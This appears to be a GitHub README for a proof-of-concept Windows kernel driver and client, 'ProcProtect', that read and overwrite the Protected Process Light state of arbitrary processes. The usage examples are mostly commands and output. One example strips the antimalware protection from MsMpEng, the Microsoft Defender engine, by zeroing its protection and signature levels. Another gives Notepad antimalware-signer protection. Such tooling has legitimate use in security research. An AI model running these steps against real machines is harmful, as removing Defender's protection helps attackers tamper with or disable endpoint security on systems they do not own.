

# ProcProtect

PoCs to manipulate Protected Process.

## Installation

```
PS C:\> sc.exe create ProcProtect type= kernel binpath= C:\Dev\ProcProtectDrv_x64.sys
PS C:\> sc.exe start ProcProtect
```

## Client Program Usage

Client program can get and update Protected Process state.

```
PS C:\Dev> .\ProcProtectClient.exe -h

ProcProtectClient - Client for ProcProtectDrv.

Usage: ProcProtectClient.exe [Options]

        -h, --help    : Displays this help message.
        -g, --get     : Flag to get protection information from process.
        -u, --update  : Flag to update process protection.
        -p, --pid     : Specifies a target PID in decimal format. Use with -s flag, or -e and -H flag.
        -t, --type    : Specifies a ProtectedType in decimal format. Default is 0 (None).
        -s, --signer  : Specifies a ProtectedSigner in decimal format. Default is 0 (None).
        -l, --level   : Specifies a SignatureLevel in decimal format. Default is 0.
        -S, --section : Specifies a SectionSignatureLevel in decimal format. Default is 0.

[!] -p option is required.
```

Target PID can be specified with `-p` option.
You can check Protected Process state with `-g` flag:

```
PS C:\Dev> Get-Process msmpeng

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
   1259      80   235000     155956              4212   0 MsMpEng


PS C:\Dev> .\ProcProtectClient.exe -g -p 4212

[>] Sending a query to \??\ProcProtect.
[+] Got a handle to \??\ProcProtect (Handle = 0x2D0)
[+] Got protection information of PID 4212.
    [*] Protected Type          : ProtectedLight
    [*] Protected Signer        : Antimalware
    [*] Signature Level         : 55
    [*] Section Signature Level : 7
[*] Done.
```

To update Protected Process state, set `-u` flag.
If you only set PID, client program will try to set all parameter to zero:

```
PS C:\Dev> Get-Process msmpeng

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
   1259      80   235000     155956              4212   0 MsMpEng


PS C:\Dev> .\ProcProtectClient.exe -g -p 4212

[>] Sending a query to \??\ProcProtect.
[+] Got a handle to \??\ProcProtect (Handle = 0x2D8)
[+] Got protection information of PID 4212.
    [*] Protected Type          : ProtectedLight
    [*] Protected Signer        : Antimalware
    [*] Signature Level         : 55
    [*] Section Signature Level : 7
[*] Done.

PS C:\Dev> .\ProcProtectClient.exe -u -p 4212

[>] Sending a query to \??\ProcProtect.
[+] Got a handle to \??\ProcProtect (Handle = 0x2D0)
[+] Protection of PID 4212 is updated.
    [*] Protected Type          : None
    [*] Protected Signer        : None
    [*] Signature Level         : 0
    [*] Section Signature Level : 0
[*] Done.

PS C:\Dev> .\ProcProtectClient.exe -g -p 4212

[>] Sending a query to \??\ProcProtect.
[+] Got a handle to \??\ProcProtect (Handle = 0x2D0)
[+] Got protection information of PID 4212.
    [*] Protected Type          : None
    [*] Protected Signer        : None
    [*] Signature Level         : 0
    [*] Section Signature Level : 0
[*] Done.
```
Protected Process parameters can be specified with following options:

* `-t` - `ProtectedType` (`0` to `2` is valid)
* `-s` - `ProtectedSigner` (`0` to `8` is valid)
* `-l` - `SignatureLevel` (`0` to `255` is valid)
* `-S` - `SectionSignatureLevel` (`0` to `255` is valid)

```
PS C:\Dev> Get-Process notepad

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    578      29    14932      76324       0.56   5696   1 Notepad


PS C:\Dev> .\ProcProtectClient.exe -g -p 5696

[>] Sending a query to \??\ProcProtect.
[+] Got a handle to \??\ProcProtect (Handle = 0x2D0)
[+] Got protection information of PID 5696.
    [*] Protected Type          : None
    [*] Protected Signer        : None
    [*] Signature Level         : 2
    [*] Section Signature Level : 2
[*] Done.

PS C:\Dev> C:\Dev\ProcProtectClient.exe -u -p 5696 -t 1 -s 3 -l 41 -S 42

[>] Sending a query to \??\ProcProtect.
[+] Got a handle to \??\ProcProtect (Handle = 0x2D0)
[+] Protection of PID 5696 is updated.
    [*] Protected Type          : ProtectedLight
    [*] Protected Signer        : Antimalware
    [*] Signature Level         : 41
    [*] Section Signature Level : 42
[*] Done.

PS C:\Dev> .\ProcProtectClient.exe -g -p 5696

[>] Sending a query to \??\ProcProtect.
[+] Got a handle to \??\ProcProtect (Handle = 0x2D4)
[+] Got protection information of PID 5696.
    [*] Protected Type          : ProtectedLight
    [*] Protected Signer        : Antimalware
    [*] Signature Level         : 41
    [*] Section Signature Level : 42
[*] Done.
```

